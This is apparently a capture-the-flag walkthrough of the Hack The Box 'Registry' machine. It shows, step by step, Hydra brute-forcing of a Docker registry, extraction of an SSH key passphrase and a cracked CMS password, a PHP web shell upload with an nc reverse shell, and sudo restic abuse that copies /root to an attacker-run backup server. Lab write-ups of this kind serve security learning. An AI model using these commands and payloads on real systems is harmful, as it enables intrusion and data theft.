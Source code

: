 # REGISTRY write-up
![](images/logo.png)

Registry is a hard difficulty Linux machine, which features Docker and the Bolt CMS running on Nginx. Docker registry API access is configured with default credentials, which allows us to pull the repository files. Using the disclosed information it is possible to obtain an initial foothold. User credentials for Bolt CMS can be obtained, and exploiting the CMS provides us with access to the www-data user, who has a sudo entry to perform backups as root using the restic program. After taking a backup of the root folder remotely and mounting the repository with restic, the root flag is obtained.

**Setup**

Target Subject | More info
------------ | -------------
Enumeration | [https://medium.com/basic-linux-privilege-escalation/basic-linux-privilege-escalation-966de11f9997](https://medium.com/basic-linux-privilege-escalation/basic-linux-privilege-escalation-966de11f9997)
Port Forwarding | ([https://www.ssh.com/ssh/tunneling/example](https://www.ssh.com/ssh/tunneling/example)
Docker API | [https://docs.docker.com/registry/](https://docs.docker.com/registry/)
Web Exploitation | [https://www.youtube.com/watch?v=InBCxzX3Od8&feature=emb_title](https://www.youtube.com/watch?v=InBCxzX3Od8&feature=emb_title)
Restic Exploitation | [https://restic.net/](https://restic.net/)

I decided to use COMMANDO from FireEye for this machine because I initially thought this was a Windows box.
#
**INITIAL RECON**

- [x] services? used -  **NMAP**
![](images/nmap.png)
- [x] default creds anywhere?  -  **WEB**
- username/password

- [ ] If HTTP, webpage discoveries (manual)?
- nothing special

- [x] If HTTP, directory discovery (automated)? - **GOBUSTER**
- [ ] SMB? -
- [x] Brute force password anywhere? - **HYDRA**

**Scan assessment**:

-   22/tcp - Typical OpenSSH2.0 running on a Ubuntu box.
    
-   80/tcp & 443/tcp - running nginx 1.14.0. TLS certificate has a subdomain of **docker.registry.htb**

-- Added: docker.registry.htb to my hosts file.     --

#
**INITIAL ACCESS**

*Docker Registry predictable  username password*
-   There's a good exploit explanation here: [https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/)
![](images/hydra.png)
-   navigating to http://docker.registry.htb/v2/ produces a log-in prompt   

    -   brute forcing is needed since no other information is present. I tried typical username of ADMIN: **bash.exe  -c "hydra -e nsr -l admin -P /usr/share/wordlists/rockyou.txt docker.registry.htb http-get /v2/ -Vf"**

BruteForce was successful because of a predictable username/password combo and hydra's (**-e nsr**) which does 3 password attempts: the username as the password, username with blank password, and backwards username as password.

#
**OBTAIN USER FLAG**
1. According the website discovered during my recon, check for docker images then eventually download the manifest file: http://docker.registry.htb/v2/bolt-image/manifests/latest
    - Notice the blobs in the manifest file
![](images/manifest.png)
2. Download the blobs (i.e. the docker image pieces of the container):
    - $cred = New-Object System.Management.Automation.PSCredential -ArgumentList @('admin',(ConvertTo-SecureString -String 'admin' -AsPlainText -Force)) *** This creates an admin:admin object that can be used to log into the site.
    - Select-String .\manifests.txt -Pattern blobsum | % {($_ -split "\s+")[2] -replace '"',""} | % { wget -Credential $cred "http://docker.registry.htb/v2/bolt-image/blobs/$_" -PassThru -OutFile "$_".Replace(':','_') }
![](images/wget.gif)
--NOTE--
Windows has an issues with filenames containing a semicolon ( : ), so I had to replace the semicolon with an underscore .
3.    Check the file types, bash.exe  -c  "file sha*". According to the registry website. The files are typically stored as tarballs. So they'll need to be renamed in order to extract them
    - Rename the files to tar.gz: ls "sha*" | ren -NewName {$_.name + ".tar.gz" }
    - use tar.exe to extract: ls *.tar.gz | % {tar.exe -xvf $_}
4. This is a HTB machine so typically the HOME directories and webserver DIR(s) are the most important. Lets start at with the **root** DIR:
     - cat the bashrc_history file in ROOT's DIR and notice username for ssh
![](images/bashrc.png)

    - cat viminfo file in ROOT's DIR and notice prior vim usage.
    - cat ..\etc\profile.d\01-ssh.sh

![](images/01-ssh.png)

5. The passphrase for the ssh key is there: **bolt:GkOcz221Ftb3ugog**
6. Use id_rsa private key to log in and cat user.txt

#
**RECON WITH ACCESS**

1. enumerate bolt DIR
     - Nothing interesting
2. enumerate webserver DIR
    - notice the restic backup service in /var/www/html/backup.php
![](images/backupPHP.png)
    - notice a .db file readable by everyone. I tried to look for 'admin', 'bolt', and 'root'. Using 'root' was fruitful
![](images/boltDB.png)

3. Crack with John: bash -c "john --wordlist=/usr/share/wordlists/rockyou.txt database.hash"
    - discover creds: **admin:strawberry**
4. Looked like installed app is called bolt (i.e. bolt/bolt)
    - https://github.com/bolt/bolt (the CMS' github)

#
**OBTAIN ROOT FLAG**
1.    Navigate to registry.htb/bolt/bolt
    - login using admin creds
2. Machine doesn't allow reverse shells to attack machine so open a nc listener as user bolt and create a RCE php file
    - nc -nvvlp 1337
    - php:
> **<?php  $cmd=$_GET['cmd']; system($cmd);**
>
    
3.  Navigate to CONFIGURATION >> MAIN CONFIGURATION.
4.  Add php as one of the allowed file types.    
5.  Upload RCE php and navigate to the following: **registry.htb/bolt/files/shell.php?cmd=nc.traditional -ne /bin/bash 127.0.0.1 1337**
![](images/ncReverse.png)
7.  sudo -l and notice:

>     User www-data may run the following commands on bolt:
>             (root) NOPASSWD: /usr/bin/restic backup -r rest*

Since I found backup earlier and then again as sudo -l, I figured that the vulnerability was involving a rogue backup operation using restic. I switch over to the kali container on COMMANDO to download tools that I would need.

  

1.  Install the restic service: **apt install restic**    
2.  pull the rest server: [https://github.com/restic/rest-server](https://github.com/restic/rest-server)    
3.  initial repository directory: restic init -r /tmp/restic (/tmp/restic is default directory for rest-server according to its documentation)    
4.  install rest-server: **CGO_ENABLED=0 go build -o rest-server ./cmd/rest-server**    
5.  run server: **./rest-server --no-auth** (default listening port is 8000)    
6.  Setup reverse SSH tunnel: **ssh bolt@registry.htb -i bolt.key -R 8000:localhost:8000**    
7.  Invoke sudo vulnerability on victim as www-data: **sudo /usr/bin/restic backup -r rest:http://localhost:8000 /root**
    

The victim /root DIR was sent back to my attack machine. Then it was just a matter of restoring the back up and obtaining the root.txt

1.  restic restore -v -t /tmp/ -r /tmp/restic/ 56e60c8fbac4cd31f134f4af22ffe97fe95b9653c522e049f66aa6f1eaf65b3c
    - Can you also just do **latest** as well as opposed to using the snapshot hash unless you made the victim backup multiple tings.
2. cat root.txt
![](images/end.png)
